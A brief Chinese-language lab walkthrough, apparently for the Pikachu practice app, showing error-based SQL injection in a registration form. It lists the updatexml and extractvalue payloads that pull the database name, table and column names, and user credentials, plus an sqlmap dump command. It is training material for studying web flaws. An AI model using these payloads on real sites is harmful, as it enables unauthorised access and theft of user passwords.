

点击注册，单独填写一个'，网页报错，表明存在漏洞  
填写完信息后使用burpsuite拦截submit请求  
将拦截到的内容发送到repeater里面  
将username=后面的内容改为  
1' and updatexml(1,concat(0x7e,(select database()),0x7e),1) and '  
点击发送，发现当前运行在pikachu数据库上  
  
将username=后面的内容改为  
1' and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema='pikachu'),0x7e),1) and '  
点击发送，查询到了所有的表  
  
将username=后面的内容改为  
1' and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema='pikachu' and table_name='users'),0x7e),1) and '  
点击发送，查询到了所有的字段名  
  
将username=后面的内容改为  
1' and extractvalue(1,concat(0x7e,(select group_concat(id,':',username,':',password,':') from users),0x7e)) and '  
点击发送，查询到了id 用户名和密码  
  
在sqlmap中，使用指令python sqlmap.py -u "http://127.0.0.1/pikachu/vul/sqli/sqli_iu/sqli_reg.php" -data="username=shabi&password=123456&sex=1&phonenum=1&email=1&add=1&submit=submit" -batch -D pikachu -T users -C username,password -dump获得同样的效果  

注册好账号后登录，登录完成后点击修改个人信息，使用burpsuite拦截submit  
剩下的步骤和前面的一样
